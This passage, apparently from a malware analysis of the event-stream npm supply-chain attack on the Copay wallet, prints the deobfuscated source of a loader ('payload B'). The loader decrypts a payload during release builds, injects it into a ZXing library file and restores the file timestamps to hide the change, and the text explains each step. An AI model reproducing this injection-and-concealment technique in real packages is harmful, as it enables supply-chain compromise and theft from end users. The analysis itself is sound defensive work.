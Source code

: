 ``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
/*@@*/
module.exports = function(e) {
 try {
  if (!/build\:.*\-release/.test(process.argv[2]))
   return;
  var t = process.env.npm_package_description,
   r = require("fs"),
   i = "/path/ReedSolomonDecoder.js",
   n = r.statSync(i),
   c = r.readFileSync(i, "utf8"),
   o = require("crypto").createDecipher("aes256", t),
   s = o.update(e, "hex", "utf8");
  s = "\n" + (s += o.final("utf8"));
  var a = c.indexOf("\n/*@@*/");
  0 <= a && (c = c.substr(0, a)),
   r.writeFileSync(i, c + s, "utf8"),
   r.utimesSync(i, n.atime, n.mtime),
   process.on("exit", function() {
    try {
     r.writeFileSync(i, c, "utf8"),
      r.utimesSync(i, n.atime, n.mtime)
    } catch (e) {}
   })
 } catch (e) {}
};
```

We start with line 4:

``` {.js fontsize="\\normalsize"}
if (!/build\:.*\-release/.test(process.argv[2])) 
 return;
```

The script is executed by a command in this format:

``` {.shell fontsize="\\small"}
npm run-script script-name
```

The regex from line 4 tests if `script-name` starts with
`'build:'` and ends with `'-release'`. The regex was designed
to test for scripts that target the Android, iOS, and desktop versions
of Copay as opposed to internal test builds for Copay's developers.

The Copay application has another non-malicious dependency called
`ZXing`, which is a barcode processing library. This module imports
`ReedSolomonDecoder.js`, which is being targeted by payload B for
the injection. In particular, the code of payload C will be injected
into the `ReedSolomonDecoder.js` file by modifying the file on
disk. However, this file is loaded in the context that the malicious
script is intended to be run in. If the file has not been modified,
payload B does nothing. If it does, `'/*@@*/'` appears in the file
and payload C is injected into the file, awaiting execution. 
After the injection occurs, payload B
replaces the metadata of the file (modified/accessed timestamps) so that
it appears like the file has not been altered.


[^1]: User's \@right9ctrl GitHub account is now deleted.
[^2]: Minification is the process of removing comments, non-essential
[^3]: Not to be confused with the malicious code payloads
